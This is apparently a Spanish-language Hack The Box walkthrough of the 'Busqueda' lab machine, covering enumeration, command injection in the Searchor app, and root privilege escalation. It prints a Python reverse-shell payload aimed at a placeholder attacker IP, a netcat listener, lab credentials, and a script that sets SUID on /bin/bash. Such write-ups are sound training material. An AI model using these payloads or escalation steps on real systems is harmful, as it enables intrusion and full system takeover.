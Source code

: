```yaml
---
layout: single
title: Busqueda - Machines - Hack The Box
excerpt: "Busqueda es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad de inyección de comandos presente en un módulo de Python. Al aprovechar esta vulnerabilidad, obtenemos acceso a nivel de usuario a la máquina. A escalar privilegios a root, descubrimos credenciales dentro de un archivo de configuración de Git, lo que nos permite iniciar sesión en un local Servicio de gitea. Además, descubrimos que se puede ejecutar un script de verificación del sistema con privilegios de root. por un usuario específico. Al utilizar este script, enumeramos los contenedores Docker que revelan las credenciales para el
cuenta Gitea del usuario administrador. Análisis adicional del código fuente del script de verificación del sistema en un El repositorio de Git revela un medio para explotar una referencia de ruta relativa, lo que nos permite la ejecución remota de código (RCE) con privilegios de root."
date: 2023-08-23
classes: wide
header:
  teaser: /assets/images/htb-writeup-busqueda/busqueda_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - machines
 
tags:  
  - burpsuite
  - Command Injection
  - python
  - rce
  
---
```


![](/assets/images/htb-writeup-busqueda/busqueda_logo.png)

Busqueda es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad de inyección de comandos presente en un módulo de Python. Al aprovechar esta vulnerabilidad, obtenemos acceso a nivel de usuario a la máquina. A escalar privilegios a root, descubrimos credenciales dentro de un archivo de configuración de Git, lo que nos permite iniciar sesión en un local Servicio de gitea. Además, descubrimos que se puede ejecutar un script de verificación del sistema con privilegios de root. por un usuario específico. Al utilizar este script, enumeramos los contenedores Docker que revelan las credenciales para el
cuenta Gitea del usuario administrador. Análisis adicional del código fuente del script de verificación del sistema en un El repositorio de Git revela un medio para explotar una referencia de ruta relativa, lo que nos permite la ejecución remota de código (RCE) con privilegios de root.

# 1. Enumeración
   
Iniciamos con un escaneando de puertos de la máquina con Nmap.

## Portscan
Encontramos dos puertos abiertos. 
•	22 de SSH 
•	80 de HTTP

![](/assets/images/htb-writeup-busqueda/portscan.png)

Realizamos un “Curl” para obtener información adicional.

![](/assets/images/htb-writeup-busqueda/curl.png)

Agregamos el dominio encontrado en el archivo “/etc/hosts” para que sepa a donde resolver cuando apuntemos a él.

![](/assets/images/htb-writeup-busqueda/hosts.png)

## Website
Navegamos hasta el servicio web. Encontramos que es una aplicación que se utiliza para realizar búsquedas con diferentes buscadores.

•	https://github.com/ArjunSharda/Searchor.

![](/assets/images/htb-writeup-busqueda/web.png)

## Burp Suite
Vamos a realizar una búsqueda cualquiera e interceptamos la petición con BurpSuite.

![](/assets/images/htb-writeup-busqueda/burp.png)

# 2. Explotación

Realizamos la busqueda de posible exploit para el buscardor "searchor".

•	Exploit: https://github.com/jonnyzar/POC-Searchor-2.4.2

Debemos inyectar una carga en la peticion interceptada por Burp.

Carga Util:

•	', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('IP-ATACANTE',PORT-ATACANTE));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

Interceptamos la petición con BurpSuite y agregamos nuestra carga útil.

![](/assets/images/htb-writeup-busqueda/burp2.png)

Paralelamente debemos ponernos en escucha por el puerto donde vamos a recivbir nuestra conexión (4444) y enviamos la petición desde Burp Suit.
•	nc -nlvp 444
Luego de enviar la peicion, vamos a recibir nuestra shell de la maquina, ahora generamos una terminal ( tty) mas facil de maenjar a través de Python y capturamos nuestra flag de usuario estandar.

![](/assets/images/htb-writeup-busqueda/rever.png)

## 3. Escalación de Privilegios

Listamos el directorio /var/www/app y encontramos “.git”.

![](/assets/images/htb-writeup-busqueda/list.png)

Nos dirigimos al directorio encontrado y volvemos a listar. Ahora encontramos un archivo de configuración.

![](/assets/images/htb-writeup-busqueda/config.png)

Leemos el archivo y encontramos un usuario y una contraseña asociado a un acceso a un dominio.

![](/assets/images/htb-writeup-busqueda/config2.png)

Nos conectamos por ssh con esas credenciales.

![](/assets/images/htb-writeup-busqueda/ssh.png)

Reutilizamos la contraseña para saber que permisos SUDO tiene el usuario “svc”.

![](/assets/images/htb-writeup-busqueda/sudo.png)

No podemos leer el archivo, pero podemos ver algunos de los parámetros permitidos.

•	sudo /usr/bin/python3 /opt/scripts/system-checkup.py *

![](/assets/images/htb-writeup-busqueda/sudo2.png)

![](/assets/images/htb-writeup-busqueda/sudo3.png)

•	Enlace: https://docs.docker.com/engine/reference/commandline/inspect/

•	sudo python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db

![](/assets/images/htb-writeup-busqueda/sudo4.png)


Credenciales:

•	yuiu1hoiu4i5ho1uh

•	jI86kGUuj87guWr3RyF



#!/bin/bash 
chmod +s /bin/bash
cat full-checkup.sh
chmod +x full-checkup.sh


![](/assets/images/htb-writeup-busqueda/sudo5.png)

•	sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

•	ls -l /bin/bash

•	bash -p

Luego de cambiar a usuario root, capturamos nuestra flag.

•	whoami

•	cat /root/root.txt

![](/assets/images/htb-writeup-busqueda/sudo6.png)
